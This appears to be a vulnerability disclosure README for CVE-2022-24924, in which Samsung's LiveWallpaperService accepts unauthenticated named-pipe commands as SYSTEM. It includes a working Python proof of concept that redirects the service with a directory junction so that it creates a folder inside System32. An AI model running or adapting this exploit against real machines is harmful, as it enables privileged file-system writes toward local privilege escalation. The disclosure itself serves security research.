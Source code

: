 # Improper access control vulnerability in LiveWallpaperService CVE-2022-24924(SVE-2021-24089)

Windows version tested: Windows 10 20H2 (Build 19042.1348) 64bit

Live Wallpaper Version: 3.0.9.0 or earlier

There is a LiveWallpaperService that works by default in Samsung laptops, but there was a vulnerability that created the SYSTEM directory in a directory with SYSTEM privileges in the SYSTEM service.

Live Wallpaper is usually installed by default on Samsung laptops, but it is also an app available from the Microsoft Store. The app can be run with User permission and communicates between the server and the client through Named PIPE IPC. At this time, the PIPE Server is operating with SYSTEM privileges and does not check which the clients are.

The following is the operation process performed when the corresponding app is launched.

Server is '33;' Upon receiving the unicode string, it accesses the 'C:\Users\{username}\AppData\Local\Packages\Sidia.LiveWallpaper_wkpx6gdq8qyz8' folder and checks the existence of the LiveWallpaperData directory. A new file system directory is created in the directory with the name 'LiveWallpaperData'.

Named PIPE is used to communicate with each other between processes. Since there is no separate client inspection, the attacker can directly open it and send the desired data.

First, after opening Named PIPE directly, create a directory junction to C:\Windows\System32 using symboliclink-testing-tools produced by james forshaw. It is created as a subdirectory of the System32 directory with privileges.

Here is the PoC for that vulnerability.

In order to perform PoC, the following conditions must be met:

1. Basically, LiveWallpaperService must be running in Windows.
2. The CreateMountPoint.exe executable file and DeleteMountPoint.exe executable file built using the symboliclink-testing-tools produced by james forshaw must exist in the same directory as the PoC.

```python
# python 3.7.2
import os
import shutil
import time
import getpass

def stringToWstring(st : str) -> str:
    result = ''
    for i in st:
        result += i+'\x00'
    return result

def main():
    # current user name
    username = getpass.getuser()

    # path settings
    path1 = f'C:\\Users\\{username}\\AppData\\Local\\Packages\\Sidia.LiveWallpaper_wkpx6gdq8qyz8'
    path2 = 'C:\\Windows\\System32'

    # delete directory
    if os.path.isdir(path1):
        shutil.rmtree(path1)

    # create directory junction
    command = f'CreateMountPoint.exe "{path1}" "{path2}"'
    os.system(command)

    # write data to named pipe
    with open('\\\\.\\pipe\\LiveWallpaperPipe', 'a') as f:
        f.write(stringToWstring('33;'))

    # IPC delay time
    time.sleep(2)

    # directory check
    if os.path.isdir(path2+'\\LiveWallpaperData'):
        print('[+] Success')
    else:
        print('[-] failed')

    # delete directory junction
    command = f'DeleteMountPoint.exe {path1}'
    os.system(command)
    shutil.rmtree(path1)

if __name__=='__main__':
    main()
```



https://user-images.githubusercontent.com/57859128/166858916-1f0b9f9a-6935-452d-8b38-18828beace0f.mp4
